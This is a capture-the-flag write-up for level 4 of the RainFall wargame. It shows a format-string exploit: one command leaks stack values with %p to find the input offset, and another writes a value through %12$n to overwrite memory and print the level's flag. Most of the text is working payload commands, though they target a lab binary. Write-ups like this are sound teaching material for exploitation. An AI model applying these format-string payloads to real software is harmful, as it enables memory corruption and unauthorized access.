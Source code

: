 # level 4

In this level, we will use the same exploit than previous level

We will need understand at which element our content is written

```bash
level4@RainFall:~$ python -c "print('BBBB' + '%p ' * 12)" |  ./level4 
BBBB0xb7ff26b0 0xbffff784 0xb7fd0ff4 (nil) (nil) 0xbffff748 0x804848d 0xbffff540 0x200 0xb7fd1ac0 0xb7ff37d0 0x42424242
```
As we can see, we will need to use the 12th argument

If you want some specific explains, please read the [gdb writeup](gdbwriteup.md)

```bash
level4@RainFall:~$ python -c 'print("\x10\x98\x04\x08" + "%16930112c%12$n")' | ./level4
[...] 
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```